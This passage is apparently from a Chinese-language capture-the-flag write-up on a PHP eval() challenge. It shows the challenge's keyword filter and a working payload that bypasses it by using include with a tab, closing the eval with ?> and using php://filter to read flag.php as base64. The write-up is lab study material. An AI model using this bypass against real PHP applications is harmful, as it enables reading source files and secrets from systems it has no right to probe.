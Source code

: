 ```php
if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(/i", $c)){
        eval($c);
    } 
```

过滤了echo和括号,无法使用函数绕过

![img](ctfshow-rce/1999159-20201002223158950-1419102854.png)

可以结合文件包含漏洞使用

payload：

```php
?c=include%09$_GET[%22x%22]?>&x=php://filter/read=convert.base64-encode/resource=flag.php
```

这里涉及到一个问题,就是不能使用;因为分号被ban,查看官方文档,发现可以使用?>来结束eval()

![image-20210126144857531](ctfshow-rce/image-20210126144857531.png)

## 33

